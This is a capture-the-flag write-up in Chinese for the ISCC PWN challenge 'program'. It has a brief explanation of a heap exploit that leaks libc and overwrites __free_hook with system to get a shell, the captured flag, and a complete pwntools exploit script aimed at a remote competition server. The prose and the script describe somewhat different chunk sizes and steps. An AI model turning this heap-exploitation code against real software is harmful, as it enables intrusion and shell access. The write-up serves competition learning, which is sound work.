

# program

​​WK-[已脱敏]-[email已脱敏]
### **题目类型+题目名称**

PWN-program

### **解题思路（必须包含文字说明+截图）**

申请一个大小为0x500的堆块 和一个大小为0x20的堆块防止大堆块被释放的时候融合，然后释放大堆块到unsortbin里面，泄露main_area的地址。然后申请堆块再释放，布置tachebin里面的堆块，指向free_hook，修改free_hook指针指向system。再申请一个堆块，编辑内容为b'/bin/sh\x00'释放它得到shell。



ISCC{3cab3951-e548-40cf-913d-e5fd15fc6f05}

### **Exp（如有，请粘贴完整代码，不允许截图！）**

```python
from pwn import *

# 配置环境
context.log_level = 'info'
libc = ELF('/home/stefan/桌面/pwn/attachment-23.so')
io = remote('101.200.155.151', 12300)


# 定义与目标程序交互的函数
def add(index, size):
    io.sendlineafter(b'choice:\n', b'1')
    io.sendlineafter(b'index:\n', str(index).encode())
    io.sendlineafter(b'size:\n', str(size).encode())


def delete(index):
    io.sendlineafter(b'choice:\n', b'2')
    io.sendlineafter(b'index:\n', str(index).encode())


def edit(index, length, content):
    io.sendlineafter(b'choice:\n', b'3')
    io.sendlineafter(b'index', str(index).encode())
    io.sendlineafter(b'length:\n', str(length).encode())
    io.sendafter(b'content:\n', content)


def show(index):
    io.sendlineafter(b'choice:\n', b'4')
    io.sendlineafter(b'index:\n', str(index).encode())


# 第一阶段: 泄露 libc 基址
def leak_libc():
    log.info("正在泄露 libc 基址...")
    # 申请多个块用于后续操作
    for i in range(9):
        add(i, 0x200)

    # 释放多个块进入 tcache
    for i in range(7):
        delete(i)
    delete(7)

    # 查看已释放的块以泄露地址
    show(7)
    leak = u64(io.recv(6).ljust(8, b'\x00'))
    libc_base = leak - 0x1ecbe0
    libc.address = libc_base
    log.success(f"Libc 基址: {hex(libc_base)}")

    return libc_base


# 第二阶段: 构建利用链
def exploit():
    log.info("正在构建利用链...")
    # 重新分配所有块
    for i in range(8):
        add(i, 0x200)

    # 申请小块用于 fastbin attack
    for i in range(9):
        add(i, 0x40)

    # 构造 fastbin 链
    for i in range(2, 9):
        delete(i)
    delete(0)
    delete(1)
    delete(0)  # 双重释放，形成循环链表

    # 重新分配块
    for i in range(2, 9):
        add(i, 0x40)
    add(2, 0x40)

    # 修改 fd 指针，指向 __free_hook
    edit(2, 0x16, p64(libc.sym['__free_hook']))

    # 分配到接近 __free_hook 的块
    add(0, 0x40)
    add(0, 0x40)
    add(0, 0x40)  # 这个块应该覆盖 __free_hook

    # 将 __free_hook 指向 system 函数
    edit(0, 0x20, p64(libc.sym['system']))

    log.info(f"__free_hook 地址: {hex(libc.sym['__free_hook'])}")
    log.info(f"system 地址: {hex(libc.sym['system'])}")

    # 准备触发 system("/bin/sh")
    pause()  # 手动暂停，检查状态
    edit(3, 0x20, b'/bin/sh\x00')
    delete(3)  # 触发 system("/bin/sh")


# 主函数
def main():
    leak_libc()
    exploit()
    io.interactive()


if __name__ == "__main__":
    main()
```


